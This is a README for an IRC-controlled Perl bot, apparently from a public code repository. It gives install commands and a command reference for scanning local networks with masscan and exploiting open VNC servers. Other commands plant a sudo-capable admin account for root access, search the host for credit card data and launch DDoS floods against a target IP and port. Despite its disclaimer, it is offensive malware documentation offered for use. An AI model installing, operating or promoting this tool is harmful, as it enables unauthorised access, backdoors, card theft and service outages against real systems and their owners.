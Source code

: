 # I am not responsible for any actions you make with this program.
# You will not use this program to commit illegal crimes.
# You take entire responsability if you damage your or someone else's computer.

This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.
The bot can also search for credit card informations in the computer that the bot is running.
There is also a DDoS module made in Python, for taking out the target from the network.

# ---INSTALLATION---

git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
cd PerlIRCSSL_VNCbypass
chmod +x *
# (if using Debian, Kali or Ubuntu) 
./debian-installer.sh
# (elseif running CentOS)
./centos-installer.sh

# ----COMMANDS----
# NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
# ----------------
# NEW COMMAND: @.getssh <= This will make a random admin account/password with sudo powers (use: sudo su :to get root access)
# ----------------
# Using this command will start masscan on your Local Area Network, or the LAN which the bot is installed on.
@.scan 192.168.0.0-192.168.255.255 
# This needs to be done before each @.exploit
@.format 
# This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
# This kills the exploit run
@.stopexploit 

# This will scan computer for credit card info and report in the channel. (REMOVED, will see if I put it back on later...)
@.ccplz
# This will give you the current running version. 
@.version

# DDoS Tool has been fixed and hits hard!
# @.ddos ip port UDP?y/n times threads
Example: @.ddos 127.0.0.1 8080 n 10000 1000 
# This kills the running ddos.
@.ddos.stop

# ---NOTE---
# In order for bot to work you need to be operator in the channel, it also must be registered with services.
# Follow the step-by-steps installations and you are done.
# ENJOY!
